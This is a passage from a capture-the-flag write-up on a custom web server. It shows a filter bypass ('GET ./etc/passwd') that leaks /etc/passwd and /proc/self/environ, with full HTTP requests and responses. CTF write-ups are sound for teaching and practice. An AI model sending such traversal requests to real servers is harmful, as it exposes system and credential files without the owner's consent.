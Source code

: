 [**\_0kami**](https://d0vine.github.io/) tried some standard tricks like path traversals:
```HTTP
GET /../../../../etc/passwd HTTP/1.1
```
which returned:
```HTTP
HTTP/1.1 403 Dots are evil
Server: Linux/cyber
Date: Fri, 05 Oct 2018 20:26:22 GMT
Content-type: text/cyber

Protected by Cyberware 10.1
```
Then played around with various requests until he tried this:
```HTTP
GET ./etc/passwd HTTP/1.1
```
which worked as expected:
```HTTP
HTTP/1.1 200 Yippie
Server: Linux/cyber
Date: Fri, 05 Oct 2018 20:32:57 GMT
Content-type: text/cyber
Content-length: 1285

root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
...
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
ctf:x:1000:1000::/home/ctf:
```
I plugged in with some ideas and we played with few not-so-random requests, none of which gave us flag. The only thing we learned was that there is a custom web-server implementation under the hood.
```HTTP
GET ./home/ctf/ HTTP/1.1

HTTP/1.1 403 You shall not list!
```
```HTTP
GET ./home/ctf HTTP/1.1

HTTP/1.1 406 Cyberdir not accaptable
```
Knowing that server runs Linux, I extracted some more useful info:
```HTTP
GET ./proc/self/environ HTTP/1.1

HTTP/1.1 200 Yippie
Server: Linux/cyber
Date: Fri, 05 Oct 2018 20:58:03 GMT
Content-type: text/cyber
Content-length: 147

PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=7c26257684d8TERM=xtermHOME=/home/ctf
```
and
```HTTP
GET ./proc/self/cmdline HTTP/1.1

HTTP/1.1 200 Yippie
Server: Linux/cyber
Date: Fri, 05 Oct 2018 20:58:26 GMT
Content-type: text/cyber
Content-length: 67
```